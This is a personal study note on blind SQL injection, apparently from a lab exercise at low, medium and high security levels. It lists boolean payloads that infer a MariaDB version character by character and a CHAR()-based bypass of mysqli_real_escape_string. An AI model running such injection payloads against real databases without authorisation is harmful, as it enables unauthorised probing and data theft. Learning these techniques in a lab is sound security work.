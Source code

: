 ## Blind SQLi
- This one is purely based on trial and error, where you request a query that results true and then request a query that returns false. And by doing that we can eventually guess stuff.
- Below trial and error example is to get information regarding version of the data base
- Automated tool is done.
```
// ACTUAL VERSION - 10.4.17-MariaDB

1' AND LOCATE(10,@@VERSION); -- -      -> True

1' AND LOCATE(10.,@@VERSION); -- -      -> True

1' AND LOCATE(10.1,@@VERSION); -- -		-> False

1' AND LOCATE(10.4,@@VERSION); -- -      -> True

1' AND LOCATE(10.40,@@VERSION);-- -      -> False
1' AND LOCATE(10.41,@@VERSION);-- -      -> False
1' AND LOCATE(10.42,@@VERSION);-- -      -> False
1' AND LOCATE(10.43,@@VERSION);-- -      -> False
1' AND LOCATE(10.44,@@VERSION);-- -      -> False
1' AND LOCATE(10.45,@@VERSION);-- -      -> False
1' AND LOCATE(10.46,@@VERSION);-- -      -> False
1' AND LOCATE(10.47,@@VERSION);-- -      -> False
1' AND LOCATE(10.48,@@VERSION);-- -      -> False
1' AND LOCATE(10.49,@@VERSION);-- -      -> False

1' AND LOCATE("10.4.",@@VERSION);-- -      -> True

1' AND LOCATE("10.4.0",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.1",@@VERSION);-- -   -> True
1' AND LOCATE("10.4.2",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.3",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.4",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.5",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.6",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.7",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.8",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.9",@@VERSION);-- -   -> False

10.4.1

1' AND LOCATE("10.4.10",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.11",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.12",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.13",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.14",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.15",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.16",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.17",@@VERSION);-- -  -> True
1' AND LOCATE("10.4.18",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.19",@@VERSION);-- -  -> False

10.4.17

1' AND LOCATE("10.4.17.",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.170",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.171",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.172",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.173",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.174",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.175",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.176",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.177",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.178",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.179",@@VERSION);-- -         -> False

1' AND @@VERSION="10.4.17-MariaDB";-- -			-> True

1' AND "10.4.17"=@@VERSION;-- -
```

## Low
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked

## Medium
- Here we had `mysqli_real_escape_string` trying to sanitize the input. However this could be easily bypassed. [[SQL-Injection/Examples]]
```
1 AND LOCATE(10,@@VERSION); -- -	-> True


1 AND LOCATE(10.4,@@VERSION); -- -	-> True


1 AND LOCATE(4.1,@@VERSION); -- -	-> True

1 AND LOCATE(4.17,@@VERSION); -- -	-> True
```

#### Better way
```
1 AND LOCATE(CONCAT(CHAR(77)),@@VERSION);-- -	-> True eheheheh

```
- Still gotta find a way to brute check string part of version.

## High
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked
